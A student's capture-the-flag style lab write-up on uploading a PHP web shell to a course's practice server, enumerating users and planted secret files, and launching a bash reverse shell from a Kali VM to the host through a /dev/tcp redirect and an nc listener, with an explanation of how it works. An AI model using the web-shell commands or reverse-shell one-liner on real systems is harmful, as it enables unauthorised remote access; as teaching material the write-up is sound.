 # Our first reverse shell

By Kendra Winhall

## Installing a PHP web shell

* a. Explain how you can execute the Linux command `whoami` on the server using your webshell. What result do you get when you execute that command?
    * I uploaded my webshell to the `uploadedimages` folder under the name `winhallk-webshell1.php`. I executed the command by typing the following into my browser (I could have also used curl and typed the URL in my terminal instead):
    * `http://danger.jeffondich.com/uploadedimages/winhallk-webshell1.php?command=whoami`
    * The output is `www-data`.
* b. What is this webshell's `<pre>` tag for? (And more to the point, what happens if you leave it out?)
    * I uploaded a webshell without the `<pre>` tag, and the output was not formatted. Specifically, spacing between different elements and line breaks were not preserved for the output of the webshell without the `<pre>` tag, and the font was also different. So it seems that the `<pre>` tag preserves the spaces and line breaks in the output.

## Looking around

* a. What directory is danger's website located in?
    * The `pwd` command returns `/var/www/danger.jeffondich.com/uploadedimages` as output. So the website is located in the directory `/var/www/`.
* b. What are the names of all the user accounts on danger.jeffondich.com? How do you know?
    * I know that information about all user accounts is located in `/etc/passwd`. Specifically, their names are located in the first column of that file. While `cat /etc/passwd` didn't work for some reason (the connection resets and I can't view the file), `getent passwd` does. To view the first column of this file, I want to use the `cut` command, specify that the delimiter is a colon, and specify that I want to see the first field, so I use the command `getent passwd | cut -d : -f 1` to get the output:
    *   ```
        root
        daemon
        bin
        sys
        sync
        games
        man
        lp
        mail
        news
        uucp
        proxy
        www-data
        backup
        list
        irc
        gnats
        nobody
        systemd-network
        systemd-resolve
        messagebus
        systemd-timesync
        syslog
        _apt
        tss
        uuidd
        tcpdump
        usbmux
        sshd
        pollinate
        landscape
        fwupd-refresh
        jeff
        postgres
        bullwinkle
        ```
    * These are the names of all the user accounts on danger.jeffondich.com. Two user names that stand out to me are `jeff` and `bullwinkle`.
    
* c. Do you have access to the file /etc/passwd? What's in it?
    * Yes, when I type the command `ls -ld /etc/*passwd` (the command `ls -ld /etc/passwd` makes the connection reset), I can see that I have read permissions for the file `/etc/passwd`.
    * `/etc/passwd` contains information about the users that have an account on danger.jeffondich.com. According to [Wikipedia page for passwd](https://en.wikipedia.org/wiki/Passwd#Password_file), the `passwd` file contains information about each user's name, user ID, group ID, full name/information, home directory, and a couple other things. Here's an excerpt of `/etc/passwd`:
    *   ```
        jeff:x:1000:1000:Jeff Ondich,,,:/home/jeff:/bin/bash
        bullwinkle:x:1001:1001:Bullwinkle J. Moose,,,:/home/bullwinkle:/bin/bash
        ```
    * We can see that there is a user named `jeff`, with user ID and group ID 1000, whose full name is Jeff Ondich, and whose home directory is `/home/jeff`. In addition, there is a user named `bullwinkle`, with user ID and group ID 1001, whose full name is Bullwinkle J. Moose, and whose home directory is `/home/bullwinkle`. The `x` in the second field of both rows indicates that those users' passwords are located in the `shadow` file.

* d. Do you have access to the file /etc/shadow? What's in it? (You'll have to look online for the answer to that second question, since the answer to the first is no.)
    * No, when I type the command `ls -ld /etc/shadow`, I can see that I do not have permissions to read, write, or execute the file. This makes sense--according to the same [Wikipedia page](https://en.wikipedia.org/wiki/Passwd#Shadow_file) as before, the `shadow` file contains each user's hashed password, along with other information about the password. As a result, the file can only be accessed by the root user.
    * According to that Wikipedia page, `/etc/shadow` contains each user's name, a salt and their hashed password, the number of days since the password was last changed, the number of days until the password can be changed (or must be changed), and the number of days until the account expires, and a couple other things.
    
* e. There may be some secret files scattered around. See how many you can find and report on your discoveries.
    * I used the command `find / -type f -name "*secret*"` to find the secret files. The results included:
        * `/opt/more-secrets.txt`, which contained the text "Oh look. You found me!"
        * `/opt/.even-more-secrets.txt` which contained the text "Aw, a little period couldn't hide me? So sad."
        * `/home/jeff/supersecret.txt`, which contained the text "Congratulations!" and some marvelous ASCII art of a moose.
        * `/var/www/danger.jeffondich.com/secrets/kindasecret.txt`, which contained the text "Congratulations!" and some fabulous ASCII art of a frog.
        * `/var/www/danger.jeffondich.com/youwontfindthiswithgobuster/secret.txt`, which contained the text "Congratulations!" and some beautiful ASCII art of two birds.

## Launching a reverse shell

* a. What is the IP address of your Kali VM (the target machine)? How did you find out?
    * My Kali VM's IP is 192.168.64.3. I determined this by running the command `ifconfig | grep inet` and choosing the IP address beginning with 192.168 because that's a private IP address, and I want my two machines to communicate through Carleton's private network.
* b. What are the IP addresses of your host OS (the attacking machine)? How did you find out? Which one should you use to communicate with Kali and why?
    * My host OS's IP is 192.168.64.1. I determined this by running the command `ifconfig | grep inet` and choosing the IP address beginning with 192.168 because that's a private IP address, and I want my two machines to communicate through Carleton's private network. (That's the rationale as to which IP I use to communicate with Kali and why.)
* c. On your host OS (the attacker), pick any port number between 5000 and 10000 and run nc -l -p YOUR_CHOSEN_PORT
    * I chose port 7777. The `-p` flag didn't work for me, but running `nc -l 7777` did.
* d. In a browser on your host machine, use your web shell to go to this crazy URL: `http://KALI_IP/YOUR_WEBSHELL.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/YOUR_HOST_OS_IP/YOUR_CHOSEN_PORT%200%3E%261%22`
    * For me, this URL was `http://192.168.64.3/webshell.php?command=bash -c "bash -i >& /dev/tcp/192.168.64.1/7777 0>&1"`
* e. Go back and look at your nc -l -p terminal on your host OS (attacking machine). Do you have a shell now? Is it letting you execute commands on Kali? How do you know it's Kali?
    * I have a shell, and it's letting me execute commands on Kali. I know it's my Kali VM for a couple reasons:
        * `ifconfig | grep inet` returns my Kali IP (192.168.64.3).
        * `uname -a` returns `Linux kali 6.8.11-arm64 #1 SMP Kali 6.8.11-1kali2 (2024-05-30) aarch64 GNU/Linux`.
        * In general, the contents of the directories match those on my Kali VM.
* f. What are all those % codes in the URL you used?
    * Those are percent encodings; there are some special characters that URLs cannot contain, so they are replaced with a `%` and a hexadecimal number. According to [this table](https://www.w3schools.com/tags/ref_urlencode.ASP), `%20` represents a space, `%22` represents `"`, `%3E` represents `>`, `%26` represents `&`.
* g. Write a brief description, probably including a diagram, explaining how this reverse shell is functioning.
    * Assume that the target has a web server running. (We launched a web server on Kali with the command `sudo systemctl start apache2`)
    * Next, the attacker must find a way to upload the reverse shell to the target (specifically, in the home directory of the web server).
    * Then, the attacker listens for incoming connections on a particular port (with the command `nc -l <port number>`). 
    * The attacker runs the following command: `http://KALI_IP/YOUR_WEBSHELL.php?command=bash -c "bash -i >& /dev/tcp/YOUR_HOST_OS_IP/YOUR_CHOSEN_PORT 0>&1"`. 
        * The webshell that the attacker uploaded to the target machine's web server's home directory executes the command. 
        * The command prompts the target machine's web server to start a bash instance (`bash -c`), which executes the command in quotes.
        * In turn, this inner command starts a new instance of an interactive bash shell (`bash -i`) and initiates a connection to the chosen port (`YOUR_CHOSEN_PORT`) on the attacker's machine (`YOUR_HOST_OS_IP`). In addition, this command redirects standard output and standard error to the attacker's machine through this connection (`>& /dev/tcp/YOUR_HOST_OS_IP/YOUR_CHOSEN_PORT`), and redirects standard input to be read from the attacker's machine (`0>&1`) through this connection. Because the target machine is initiating the connection to the attacker, the target machine's firewall doesn't block the connection.
    * Now, when the attacker enters a command in their terminal, it is read as standard input by the new interactive bash instance on the target's machine. The bash shell then executes the command on the target's machine and the resulting output and/or error messages are sent to the attacker's terminal.

